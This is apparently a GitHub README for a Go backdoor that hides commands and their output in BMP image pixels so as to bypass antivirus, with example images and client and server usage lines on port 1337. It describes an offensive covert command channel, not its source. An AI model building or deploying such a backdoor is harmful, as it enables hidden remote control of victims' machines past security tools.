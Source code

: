 # Go-BMP-Backdoor

Inspired by [Transferring Backdoor Payloads with BMP Image Pixels](https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher), I write a Go version.

Encrypt backdoor payloads in .bmp files to bypass AV.

## Example

![](./client_recv.bmp)

base64 encoded `id`

![](./client_send.bmp)

base64 encoded `uid=1000(amyang) gid=1000(amyang) groups=1000(amyang),10(wheel),14(uucp),54(lock),56(bumblebee),95(storage),108(vboxusers),1001(usbfs)`

## Usage

### Client

`./client_linux -server 127.0.0.1 -port 1337`

so is client_windows.exe

### Server

`./server -port 1337`